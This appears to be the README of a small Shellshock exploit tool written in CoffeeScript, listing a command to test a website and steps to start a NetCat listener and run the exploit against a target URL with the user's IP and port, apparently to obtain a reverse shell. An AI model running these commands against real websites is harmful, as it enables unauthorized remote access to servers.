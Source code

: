 # shellshock


### Test

`coffee index.coffee <url of website>`


### Exploit

**Setup a NetCat listener:**
`nc -l 5432`


`coffee exploit.coffee <url of website> <Your IP> 5432`

